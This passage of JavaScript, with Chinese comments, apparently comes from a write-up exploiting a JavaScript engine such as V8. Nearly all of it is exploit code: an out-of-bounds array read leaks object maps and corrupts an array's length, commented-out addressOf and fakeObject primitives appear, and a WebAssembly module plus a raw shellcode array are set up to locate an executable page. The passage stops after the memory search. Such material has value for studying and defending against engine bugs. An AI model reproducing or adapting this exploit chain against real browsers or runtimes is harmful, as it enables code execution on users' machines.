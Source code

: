 ```
arr[0] = 1.1;
arr.push(1.1,2.2,3.3,4.4,5.5,6.6);
var oob_arr = new Array(1.1,2.2);
var obj_arr = [obj,obj];
var arb_buf = new ArrayBuffer(0x10);
var d = arr[17];
var double_element_map = u64_l(d);
var tmp0 = u64_h(d);
d = arr[18];
var tmp1 = u64_l(d);
print("double_element_map="+double_element_map.toString(16));
arr[18] = p64(tmp1,0x100000); //修改oob_arr的length

d = oob_arr[4];
var obj_element_map = u64_l(d);
print("obj_element_map=" + obj_element_map.toString(16));


/*function addressOf(m_obj) `{`
   obj_arr[0] = m_obj;
   oob_arr[0x4] = p64(double_element_map,tmp0);
   var a = u64_l(obj_arr[0]) - 0x1;
   oob_arr[0x4] = p64(obj_element_map,tmp0);
   return a;
`}`

function fakeObject(addr) `{`
   oob_arr[0] = p64(addr + 0x1);
   arr[17] = p64(obj_element_map,tmp0);
   var a = oob_arr[0];
   arr[17] = p64(double_element_map,tmp0);
   return a;
`}`*/

const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([186,114176,46071808,3087007744,41,2303198479,3091735556,487129090,16777343,608471368,1153910792,4132,2370306048,1208493172,3122936971,16,10936,1208291072,1210334347,50887,565706752,251658240,1015760901,3334948900,1,8632,1208291072,1210334347,181959,565706752,251658240,800606213,795765090,1207986291,1210320009,1210334349,50887,3343384576,194,3913728,84869120]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var wasm_shellcode_addr_l;
var wasm_shellcode_addr_h;

//搜索wasm_shellcode_addr
for (var i=0xfe;i&gt;=1;i-=1) `{`
   d = oob_arr[0x31200+i];
   wasm_shellcode_addr_l = u64_h(d);
   d = oob_arr[0x31200+i+1];
   wasm_shellcode_addr_h = u64_l(d);
   if (parseInt(wasm_shellcode_addr_h) != 0 &amp;&amp; parseInt(wasm_shellcode_addr_l) != 0 &amp;&amp; parseInt(wasm_shellcode_addr_l &amp; 0xFFF) == 0) `{`
      print("wasm_shellcode_addr=" + wasm_shellcode_addr_h.toString(16) + wasm_shellcode_addr_l.toString(16));
      break;
   `}`
`}`
```